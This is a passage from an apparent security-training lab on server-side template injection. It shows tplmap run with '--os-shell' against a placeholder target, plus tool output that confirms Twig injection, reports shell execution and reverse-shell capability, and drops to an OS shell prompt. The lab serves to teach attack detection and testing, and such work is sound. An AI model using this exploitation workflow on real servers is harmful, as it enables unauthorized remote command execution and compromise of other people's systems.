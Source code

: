 
As we can see in the output/response above, the submitted payload was evaluated, and the specified commands (`id`, `uname -a`, and `hostname`) were executed successfully.

Again, we could have automated the template engine exploitation process we just executed through [tplmap](https://github.com/epinna/tplmap), as follows.

#### tplmap.py - OS Shell

```shell
p3ta@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Run commands on the operating system.

Linux $ 
```

We can now execute any command of our choosing through the shell `tplmap` established for us!

Now, proceed to this section's exercise and complete the objective either by crafting the payload yourself or through a shell obtained with the help of `tplmap`.
